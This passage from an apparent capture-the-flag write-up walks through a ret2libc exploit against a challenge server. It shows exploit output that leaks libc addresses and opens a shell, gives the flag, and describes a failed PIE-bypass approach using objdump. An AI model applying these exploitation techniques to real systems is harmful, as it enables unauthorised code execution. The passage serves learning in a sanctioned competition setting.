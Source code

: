 Following that, we send option (4) to write to the buffer, with a padding of 8 bytes followed by the address of our ret2libc payload (16 bytes in total).

Finally when running the exploit against the server, we might encounter problems if the version of libc doesn't correspond to the server's version.  
In such case, we download a different version and continue until it spawns a shell.

```
./exploit_dangle.py
...
[*] Loaded 197 cached gadgets for './libc6-amd64_2.36-9+deb12u3_i386.so'
[+] Opening connection to dangle-me.knping.pl on port 30000: Done
[*] Libc address leaked: 0x7ffa12a4aa80
[**] Libc base address: 0x7ffa12878000

[***] system addr = 0x7ffa128c43a0
[***] bin_sh addr = 0x7ffa12a0e031
[***] pop_rdi addr = 0x7ffa1289f765
[***] ret addr = 0x7ffa1289f0e2
[*] Switching to interactive mode
> $ id
uid=1000 gid=1000 groups=1000
$ ls
flag.txt
run
$
```
**Flag**: `ping{h0w_t0_r37urn_an_array_fr0m_a_func710n_in_C++?!}`

## Bypassing PIE Mitigation
Although we got the flag and solved the task, I had a failed-attempt that I thought would be worth sharing.

My approach here was bypassing PIE and then leaking an address of some libc function from GOT (perhaps with `puts`).  
With the leaked GOT address, we find the version of libc and calculate its base address.

In order to bypass PIE, we need to leak an address from the binary's memory mapping itself to resolve its base address. in contrast to libc for example, where we leak a libc address to resolve libc's base address.  

If we inspect the leaked addresses a second time, we notice there is exactly a leak from the binary's memory mapping in the 433th stack frame. Meaning we can calculate the elf's base address.

From inspecting the binary's offsets with `objdump`, We see that the offsets to the base address of the elf are 4 bytes.

```shell
$ objdump -M intel -d dangle
Disassembly of section .init:
0000000000002000 <.init>:
    ...

Disassembly of section .plt:
0000000000002020 <setvbuf@plt-0x10>:
    ...
            
// The Disassembly continues
```
Then to calculate the elf's base, we remove the last 4 bytes of the leaked address from the binary's mapping (See `leakElf()` in the exploit for further details).
